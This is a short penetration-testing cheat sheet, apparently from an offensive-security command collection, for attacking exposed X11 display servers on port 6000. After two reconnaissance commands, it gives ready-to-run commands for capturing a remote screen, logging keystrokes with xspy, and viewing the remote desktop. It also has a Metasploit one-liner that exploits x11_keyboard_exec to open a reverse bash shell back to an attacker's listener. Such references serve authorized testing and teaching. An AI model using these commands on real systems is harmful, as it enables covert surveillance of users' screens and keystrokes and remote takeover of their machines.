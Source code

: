 # X11

% x11, 6000
#plateform/linux  #target/remote #protocol/x11 #port/6000

## x11 - verify connection
#cat/RECON  
```
xdpyinfo -display <ip>:<display>
```

## x11 - verify connection (2)
#cat/RECON 
```
xwininfo -root -tree -display <ip>:<display>
```

## X11 - screenshot
#cat/ATTACK/EXPLOIT 
```
xwd –root –screen –silent –display <ip>:<display> > screenshot.xwd; convert screenshot.xwd screenshot.png
```

## X11 - keylogging
#cat/ATTACK/EXPLOIT 
```
xspy <ip>
```

## X11 - remote desktop view
#cat/ATTACK/CONNECT 
```
xrdp <ip>:<display>
```

## X11 - msf reverse shell
#cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/unix/x11/x11_keyboard_exec; set RHOSTS <rhost>; set payload cmd/unix/reverse_bash; set lhost <lhost>; set lport <lport>; exploit"
```

= display: 0
